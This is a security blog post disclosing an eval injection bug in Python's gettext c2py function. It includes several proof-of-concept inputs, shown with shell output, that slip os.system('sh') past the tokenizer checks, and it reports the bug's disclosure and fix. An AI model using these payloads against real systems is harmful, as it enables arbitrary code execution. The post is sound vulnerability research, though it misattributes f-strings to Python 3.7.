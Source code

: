 +++
author = "rspkt"
categories = [ "security" ]
date = "2017-01-14T16:00:00+01:00"
description = ""
title = "Is eval safe yet? Arbitrary code execution in Python"
+++

TL;DR
-----

Found use of `eval` in the Python `gettext` module. Bypassed weak security
checks. Gained arbitrary code execution.

Background
----------

In [_Beyond PEP 8_](https://youtu.be/wf-BqAjZb8M?t=2917), an excellent talk by
Raymond Hettinger, he jokingly comments that `namedtouple` is implemented using
`eval` ([or `exec`, to be exact](https://github.com/python/cpython/blob/master/Lib/collections/__init__.py#L303)),
and that it's defensible given the right circumstances. While this is sometimes
true, I figured I'd clone the cpython repository and grep for any usages of
`eval`-like functions.

What caught my attention was the function `c2py` in the `gettext` module. The
`gettext` module contains bindings for the [`gettext` system](https://www.gnu.org/software/gettext/),
which is an internationalization and localization system. One of the
responsibilities of `gettext` is to convert between plural forms in different
languages. The plural forms for a language are defined using a
[C-like DSL](https://www.gnu.org/savannah-checkouts/gnu/gettext/manual/html_node/Plural-forms.html).
The DSL is basically a nested ternary expression with different enumerated
outcomes, one for each plural form of the specific language. The variable in the
ternary expression is always named `n`, and represents the count for which a
plural form should be returned.

For English, the `gettext` plural form is written as:

```
n != 1
```

The above expression will evaluate to either plural form 0 when `n` is singular,
or 1 when plural. For other languages, several plural forms exist. Take for
example [Russian](http://docs.translatehouse.org/projects/localization-guide/en/latest/l10n/pluralforms.html):

```
n % 10 == 1 && n % 100 != 11 ? 0 : n % 10 >= 2 && n % 10 <= 4 && (n % 100 < 10 || n % 100 >= 20) ? 1 : 2
```


Eval to the rescue
------------------

Due to the expressiveness required by this language, writing a parser that
evaluates these plural forms is not trivial. We could however try to translate
these C-like expressions to Python and throw `eval` at it. The Russian plural
form rewritten in Python would look like this:

```
(0 if n % 10 == 1 and n % 100 != 11 else (1 if n % 10 >= 2 and n % 10 <= 4 and (n % 100 < 10 or n % 100 >= 20) else 2))
```

[This is exactly what was done in `c2py` in the `gettext` module](https://github.com/python/cpython/blob/69f0c06c3965ace34ccc8b9a932a8bfd842a52da/Lib/gettext.py#L63).
Just like the name of the function suggests, the C-like syntax is converted to
Python, and is subsequently evaluated to a lambda function with `eval`:

```
eval('lambda n: int(%s)' % plural)
```

A valid call to c2py could look something like this:

```
apples = ['Cox Orange', 'Granny Smith']
["apple", "apples"][gettext.c2py('n != 1')(len(apples))]

"apples"
```


Security
--------

No one in their right mind would call `eval` on user input without having the
security checks necessary in place. The security checks implemented in `c2py`
makes sure that `n` is the only allowed variable in the plural expressions. It
also does some general input validation, like checking that parentheses are
balanced.

My first discovery here was that the validation didn't prevent expressions
that were using `n` as a function. As long as there is a token that the Python
`tokenize` module classifies as a `NAME` token with the name `n`, the security
checks will pass. The below code snippet successfully spawned a shell:

```
gettext.c2py('n()')(lambda: os.system('sh'))
```

This isn't really a high risk issue, since the input to the lambda function
most likely will be an integer given by some count-logic, and not user input.


Exploitation
------------

Not being able to take the function-call bug any further, I kept investigating
ways in which I could break the security checks. After a lot of trial-and-error,
I found a way to confuse the Python tokenizer. If our entire input is
interpreted as a string, the input should pass the security checks. Furthermore,
it doesn't even have to be a valid string, since the security checks pass even
though the tokenizer returns a result with `ERRORTOKEN`. The following input
string will pass the security checks but break during evaluation:

```
gettext.c2py('"eval(foo) ""')
```

Next on the agenda is to make sure the invalid string we entered is actually
interpreted as a valid expression. Since we've bypassed the tokenizer, the
code that translates and builds the Python expression will assume that all
parentheses are matched. If we insert a left parentheses after the first double
quote, and some boolean operator before the empty string, we'll get a valid
expression:

```
gettext.c2py('"(eval(foo) && ""')(0)

----> 1 gettext.c2py('"(eval(foo) && ""')(0)
   gettext.pyc in <lambda>(n)
   NameError: global name 'foo' is not defined
```

From here, spawning a shell is trivial. The `c2py` module imports the `os`
module, so all we need to do to get full access to the host system is

```
gettext.c2py('"(os.system(\'sh\') & ""')(0)

$
```


Enter Python 3.7
----------------

Giving the tokenizer-based security a second though, I wondered how it would
react to the [new literal string interpolation](https://www.python.org/dev/peps/pep-0498/)
introduced in Python 3.7. (Not so) surprisingly, this string gets no special
attention by the tokenizer, and calling `c2py` with an interpolated string just
works:

```
gettext.c2py('f"{os.system(\'sh\')}"')(0)

$
```


Conclusion
----------

This bug was first disclosed to security@python.org, and later on added to the
[Python issue tracker](http://bugs.python.org/issue28563) due to its low-risk
nature. Generally these plural forms are specified in
[PO files](https://www.gnu.org/software/gettext/manual/html_node/PO-Files.html)
which is an unlikely attack vector.

The issue was resolved by implementing an actual parser for the `gettext` plural
form language.
